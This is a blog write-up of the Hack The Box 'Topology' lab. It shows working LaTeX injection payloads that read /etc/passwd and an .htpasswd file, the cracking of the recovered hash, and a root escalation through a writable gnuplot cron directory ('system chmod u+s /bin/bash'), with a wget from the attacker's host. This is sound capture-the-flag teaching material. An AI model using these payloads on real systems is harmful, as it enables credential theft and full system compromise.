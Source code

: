 ```yaml
---
layout: post
title:  "Hack The Box: Topology Write-Up"
category : writeup
tags :  laTexinjection gnuplot  filterbyPass privesc
---
```


![alt text](assets/blog/htb-topology/topology.png)

---
## Description
Topology starts with a website for a Math department at a university with multiple virtual hosts. One has a utility for turning LaTeX text into an image. I’ll exploit an injection to get file read, and get the .htpassword file for a dev site, which has a shared password with a user on the box. To get to root, I’ll exploit a cron running gnuplot. In Beyond Root, I’ll look at an unintended filter bypass that allows for getting a shell as www-data by writing a webshell using LaTeX, as well as how one of the images that gnuplot is creating got broken and how to fix it

#### Difficulty: `easy`

## Part 1: Enumeration & Foothold

##### port scan

![image](https://user-images.githubusercontent.com/62140530/285233139-616ab789-01f8-461e-a712-4c57c2cb1bed.png)


The open ports of the machine are 22 (SSH) and 80 (Http).
This would be the main page of the website, we see that there is a domain **topology.htb** so 
we add it to our /etc/hosts file.
 
 `echo "10.10.11.217 topology.htb" | sudo tee -a /etc/hosts` 
 
upon navigating to the url http://topology.htb we get this, maths university department website

![image](https://user-images.githubusercontent.com/62140530/285233397-6ad31d4f-f9f7-46bf-a720-9472c775a216.png)


On the same website source code page we discovered a link that takes us to the **latex.topology.htb** subdomain .

![image](https://user-images.githubusercontent.com/62140530/285233803-e6590dbb-5b5a-451b-8c09-42b1545d17de.png)


Before inspecting the Latex subdomain, we search through _Wfuzz_ for other possible subdomains.
 

![image](https://user-images.githubusercontent.com/62140530/285234043-61a73112-74d3-457e-8e9b-e8d3abcc38ef.png)



We find another subdomain that does not appear on the web, it is **dev.topology.htb** so we add it to /etc/hosts.


if we visit it, an authentication panel will appear, we tried some weak credentials but without success.


![image](https://user-images.githubusercontent.com/62140530/285234327-a234a8f6-abe2-486e-b22d-b9447f6728d4.png)


We go back to the Latex subdomain and basically what we can do is create images from mathematical equations.

![image](https://user-images.githubusercontent.com/62140530/285238447-dde537ac-7f1b-4dad-8ae2-35b02818fd13.png)


If we try to perform a Latex Injection to read a file from the machine, we get the following message:


![image](https://user-images.githubusercontent.com/62140530/285234498-993ec3a2-b525-4572-8b10-20da22254bde.png)



### Shell as vdaisley

After many tries, I manage to read files from the machine using the following loop in latex.

```latex
\newread\file \openin\file=/etc/passwd \read\file to\line \text{\line} \closein\fileu
```


![image](https://user-images.githubusercontent.com/62140530/285234617-92b71a8f-f9e1-4ce7-beaa-6a42ee976dac.png)

The problem is that we only see one line of the file, for this we must use the $ symbol at the beginning and at the end, since they indicate that they are formulas in a single line.


```latex
$\lstinputlisting{/etc/passwd}$
```


If we send it, the image we receive is as follows:

![image](https://user-images.githubusercontent.com/62140530/285234786-cee118f0-63ad-42fc-b24b-4d4a842f0d3b.png)


We obtain the /etc/passwd file, thus being able to read the entire file.

We know there is a subdomain that we can't access, we can try to get credentials in case the .htpasswd file exists.

This would be the path where the .htpasswd could be stored, so we make the request.

```latex
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

This would be the image we get, it is about the encrypted credentials of the user **vdaisley** .

![image](https://user-images.githubusercontent.com/62140530/285234913-1c5845a1-0fd9-4072-85c2-9517ed648f6b.png)

we use john to crack the password


```bash
john --wordlist=usr/share/wordlist/rockyou.txt hash
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
calculus20       (vdaisley)     
1g 0:00:00:05 DONE 0.1769g/s 176436p/s 176436c/s 176436C/s callel..butkis
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We connect via SSH and read the flag.

```bash
❯ ssh vdaisley@topology.htb
The authenticity of host 'topology.htb (10.10.11.217)' can't be established.
ED25519 key fingerprint is SHA256:F9cjnqv7HiOrntVKpXYGmE9oEaCfHm5pjfgayE/0OK0.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'topology.htb' (ED25519) to the list of known hosts.
vdaisley@topology.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: 

-bash-5.0$ 
-bash-5.0$ cat user.txt 
f8**************************aa
-bash-5.0$
```

## Part 2: Privesc
### Shell as root
We download  _pspy_  and give it execution permissions.

```bash
vdaisley@topology:~$ wget 10.10.14.69/pspy
--2023-X-X X:X:X--  http://10.10.14.69/pspy
Connecting to 10.10.14.69:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy’

pspy 100%[======================>]   2.96M  5.71MB/s    in 0.5s    

X-X-X X:X:X (5.71 MB/s) - ‘pspy’ saved [3104768/3104768]

vdaisley@topology:~$ ls
pspy  user.txt
vdaisley@topology:~$ chmod +x pspy
```


_We see that gnuplot_ is executed , for those of you who don't know what it is, it is a script  originally created to allow scientists and students to visualize mathematical functions and data interactively, but has grown to support many non-interactive uses such as web scripting.
http://www.gnuplot.info/

```bash
2023/06/13 16:33:01 CMD: UID=0 PID=1419 | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/06/13 16:33:01 CMD: UID=0 PID=1418 | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;
```

Since we have permissions to create files in the /opt/gnuplot directory, we create a file for the program to convert BASH with SUID permissions.

```bash
vdaisley@topology:~$ ls -l /opt/
total 4
drwx-wx-wx 2 root root 4096 Jun 13 16:45 gnuplot
vdaisley@topology:~$ echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/privesc.plt
vdaisley@topology:~$ watch -n 1 ls -l /bin/bash
vdaisley@topology:~$ cat /opt/gnuplot/privesc.plt
system "chmod u+s /bin/bash"
```

After a few seconds, BASH changes its permissions, thus being able to become **root** and read the flag.

```bash
vdaisley@topology:~$ watch -n 1 ls -l /bin/bash
vdaisley@topology:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
vdaisley@topology:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
87**************************14
bash-5.0# 
```

